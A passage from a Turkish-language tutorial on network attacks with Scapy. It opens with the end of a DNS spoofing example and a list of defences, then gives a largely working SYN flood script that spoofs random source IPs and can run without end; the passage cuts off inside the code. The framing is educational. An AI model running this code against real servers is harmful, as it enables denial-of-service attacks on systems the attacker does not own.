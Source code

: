 ```python
#     queue.unbind()

# if __name__ == "__main__":
#     main_dns_spoofer()
```
**Not:** Bu `netfilterqueue` örneği daha gelişmiştir ve doğrudan Scapy'nin `sniff` fonksiyonuyla çalışmaz; Linux çekirdeğiyle entegrasyon gerektirir. Daha basit bir `sniff` tabanlı DNS spoofer da yazılabilir ancak cevapların yarış durumuna (race condition) girmemesi için dikkatli olunmalıdır.

**Savunma Yöntemleri:**
*   **DNSSEC (DNS Security Extensions):** DNS cevaplarının kriptografik olarak imzalanmasını sağlayarak sahteciliği zorlaştırır.
*   **HTTPS:** Web siteleri HTTPS kullanıyorsa, sahte bir IP'ye yönlendirilse bile tarayıcı sertifika hatası verecektir.
*   **VPN Kullanımı:** Güvenilir bir VPN, DNS sorgularını şifreli bir tünel üzerinden göndererek yerel ağdaki manipülasyonları engelleyebilir.
*   **Güvenilir DNS Sunucuları:** Bilinen ve güvenilir DNS sunucularını kullanmak (örn: Google DNS, Cloudflare DNS).
*   **ARP Spoofing Tespit ve Önleme:** DNS spoofing genellikle ARP spoofing'e dayandığı için ARP güvenliği önemlidir.

### SYN Flood (DoS Saldırısı Simülasyonu)
SYN Flood, bir sunucuya çok sayıda TCP SYN paketi göndererek sunucunun bağlantı kaynaklarını (genellikle yarı açık bağlantı tablosunu) tüketmeyi amaçlayan bir Denial of Service (DoS) saldırısıdır. Sunucu her SYN için kaynak ayırır ve SYN/ACK gönderir, ancak saldırgan ACK ile cevap vermez.

**Çalışma Mantığı:**
1.  Saldırgan, hedef sunucunun açık bir portuna (örn: 80) çok sayıda SYN paketi gönderir.
2.  Bu SYN paketlerinde kaynak IP adresi genellikle sahte (spoofed) olur, böylece sunucudan gelen SYN/ACK'lar gerçek olmayan adreslere gider veya saldırgana geri dönmez.
3.  Sunucu, her SYN için bir TCB (Transmission Control Block) ayırır ve SYN/ACK gönderdikten sonra istemciden ACK beklemeye başlar.
4.  Çok sayıda SYN isteği gelirse ve ACK'lar gelmezse, sunucunun yarı açık bağlantı tablosu dolar ve yeni meşru bağlantı isteklerini kabul edemez hale gelir.

**Scapy ile SYN Flood Simülasyonu:**
```python
from scapy.all import IP, TCP, send, RandIP, RandShort

def syn_flood(target_ip, target_port, num_packets=1000):
    """
    Hedef IP ve porta SYN flood saldırısı simülasyonu yapar.
    num_packets: Gönderilecek toplam paket sayısı. 0 ise sonsuz (Ctrl+C ile durdur).
    """
    print(f"[*] {target_ip}:{target_port} adresine SYN Flood başlatılıyor...")
    
    if num_packets == 0:
        print("[*] Sonsuz modda gönderiliyor (Durdurmak için Ctrl+C)...")
        packet_count = 0
        try:
            while True:
                # Kaynak IP ve portu rastgele seçerek spoofing
                source_ip = str(RandIP()) 
                source_port = RandShort() # 1-65535 arası rastgele port
                
                ip_layer = IP(src=source_ip, dst=target_ip)
                tcp_layer = TCP(sport=source_port, dport=target_port, flags="S", seq=RandInt(), window=RandShort())
                # Checksum'ları Scapy'nin hesaplaması için silebiliriz veya Scapy zaten yapar
                # del ip_layer.chksum
                # del tcp_layer.chksum
                
                packet = ip_layer/tcp_layer
                send(packet, verbose=False) # Hızlı göndermek için verbose=False
```